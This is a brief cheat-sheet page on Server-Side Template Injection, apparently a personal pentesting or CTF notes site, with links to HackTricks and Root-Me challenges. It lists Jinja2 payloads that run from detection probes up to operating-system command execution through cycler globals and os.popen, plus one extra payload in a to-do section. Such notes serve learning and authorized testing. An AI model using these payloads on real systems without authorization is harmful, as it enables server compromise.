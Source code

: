 # Server-Side Template Injection (SSTI)

[![jinja2_ssti](../../../../_badges/hacktricks/jinja2_ssti.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)
[![java_ssti](../../../../_badges/rootme/web_server/java_ssti.svg)](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection)

<div class="row row-cols-lg-2"><div>

Server-Side Template Injection occurs when we can inject code that is parsed by a template engine such as [Jinja2](/programming-languages/web/topics/templating/jinja2/index.md) in Python.

You may be able to guess the template engine used from the web server, for instance, if it's Python then it's most likely Jinja.
</div><div>

**Example for Jinja2** 🔥 ([article](
https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/))

* Basic Test: `{{ "PoC"|e }}`
* Test if debug is enabled: `{% debug %}`
* Try to print the context `{{ self._TemplateReference__context }}`
* Then, you might be able to perform code injection:

```js!
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler.__init__.__globals__.os.popen("ls -1a").read() }}
```

If the first payload return something, then try to use the shorter one.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `{{ self.__init__.__globals__.__builtins__.__import__('os') }}`
</div><div>
</div></div>